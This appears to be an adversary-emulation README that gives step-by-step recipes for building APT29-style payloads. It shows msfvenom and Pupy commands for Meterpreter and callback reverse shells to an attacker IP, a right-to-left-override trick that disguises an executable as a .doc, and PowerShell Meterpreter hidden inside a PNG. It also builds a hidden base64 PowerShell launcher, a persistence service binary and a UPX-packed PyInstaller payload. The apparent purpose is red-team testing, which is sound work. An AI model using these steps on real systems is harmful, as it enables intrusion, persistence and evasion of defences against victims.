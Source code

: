 ### Create Scenario 1 Payloads

#### 1. CosmicDuke Payload (cod.3aka3.scr)

| Filename | Location | Description |
| ------ | ------ | ------ |
| cod.3aka3.scr | payloads/cod.3aka3.scr | Portable executable that uses right-to-left override character to disguise file extension |

1. Generate a Pupy-EC4 callback payload:

```
gen -o cod.3aka3.scr -f client -O windows -A x64 connect -t ec4 --host <attacker IP>:1234
```

2. On Windows attack platform, rename cod.3aka3.scr with right-to-left override character (<https://redcanary.com/blog/right-to-left-override/>)

    1. Windows key and type 'Character Map'; select open
    2. Scroll to the RTLO character (U+202E)
    3. Select the RTLO character, then click "select", then click "copy"
    4. Right click `cod.3aka3.scr`, then click "Rename"
    5. Move cursor to beginning of filename. Press "ctrl-v" to paste RTLO character, and hit "enter" to save the rename.
    6. The file should now be named "rcs.3aka3.doc"

![alt text](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/041515_2317_SpoofUsingR1.png)

Screenshot taken from: <https://resources.infosecinstitute.com/spoof-using-right-to-left-override-rtlo-technique-2/>

#### 2. Privilege Escalation Payload (monkey.png)

| Filename | Location | Description |
| ------ | ------ | ------ |
| monkey.png | payloads/monkey.png | Well formed PNG with embedded PowerShell-Meterpreter callback |

Steps to re-create:

1. Generate a PowerShell-formatted Meterpreter payload:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker IP> LPORT=443 --format psh -o meterpreter.ps1
```

2. Transfer meterpreter.ps1 to Windows attack platform; embed meterpreter.ps1 into a PNG file using Invoke-PSImage (<https://github.com/peewpw/Invoke-PSImage>):

```
Import-Module .\Invoke-PSImage.ps1
```

```
Invoke-PSImage -Script .\meterpreter.ps1 -Out .\monkey.png -Image .\monkey.jpg
```

#### 3. Startup Folder Payload (strings64/hostui.exe)

| Filename | Location | Description |
| ------ | ------ | ------ |
| strings64.exe | payloads/SysinternalsSuite/strings64.exe | Launches Meterpreter using CreateProcessWithToken API call

1. Generate PowerShell-formatted Meterpreter:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker IP> LPORT=443 --format psh-cmd
```

2. Copy the PowerShell 1-liner to clipboard. Your clipboard should look like:

`powershell.exe -nop -w hidden -e aQBmAc...base64 string...KAOwa=`

Do **not** copy the execution preamble (`%COMSPEC% /b /c start /b /min`)

3. Open `payloads/readme.txt`; paste the PowerShell-Meterpreter blog on line `816`. This line should look like:

`$javasvc = "powershell.exe -nop -w hidden -e aQBmAc...base64 string...KAOwa="`

#### 4. Persistent Service Payload (javamtsup.exe)

| Filename | Location | Description |
| ------ | ------ | ------ |
| javamtsup.exe | payloads/SysinternalsSuite/javamtsup.exe | Reverse HTTPS Meterpreter service executable |

1. Generate a Meterpreter service-binary:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker IP> LPORT=443 -f exe-service -o javamtsup.exe
```

#### 5. SeaDuke Payload (python.exe)

| Filename | Location | Description |
| ------ | ------ | ------ |
| python.exe | payloads/Seaduke/python.exe | Python Meterpreter compiled to EXE with PyInstaller |

1. Generate python-formatted Meterpreter:

```
msfvenom -p python/meterpreter/reverse_https LHOST=<attacker IP> LPORT=8443 -o python.py
```

2. Transfer python.py to Windows attack platform

3. Compile python.py into a portable executable using PyInstaller (<https://pypi.org/project/PyInstaller/>)

```
pyinstaller -F python.py
```

4. Pack the python.exe payload using UPX (<https://github.com/upx/upx>)

```
upx --brute python.exe
```
